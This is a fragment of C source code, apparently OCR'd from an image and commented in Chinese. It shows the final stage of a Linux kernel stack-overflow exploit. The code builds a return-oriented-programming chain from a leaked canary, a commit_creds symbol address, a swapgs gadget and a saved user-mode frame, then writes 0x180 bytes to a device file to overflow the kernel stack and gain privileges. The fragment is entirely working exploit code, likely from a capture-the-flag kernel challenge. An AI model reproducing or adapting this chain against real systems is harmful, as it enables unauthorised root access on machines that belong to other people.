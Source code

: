 ```c
    // 构建rop链，注意返回到用户态的calc_addr函数
    buffer[canary_index] = canary;
    buffer[ret_index++] = pop_rax;
    buffer[ret_index++] = ksymtab_commit_creds;
    buffer[ret_index++] = mov_rax_rax_pop_rbp;
    buffer[ret_index++] = 0;
    buffer[ret_index++] = swapgs;
    buffer[ret_index++] = 0;
    buffer[ret_index++] = 0;
    buffer[ret_index++] = (size_t)calc_addr;
    buffer[ret_index++] = user_cs;
    buffer[ret_index++] = user_rflags;
    buffer[ret_index++] = user_sp;
    buffer[ret_index++] = user_ss;
	
    // 栈溢出，随后会执行calc_addr函数
    write(dev_fd, buffer, 0x180);

    return 0;
}
```















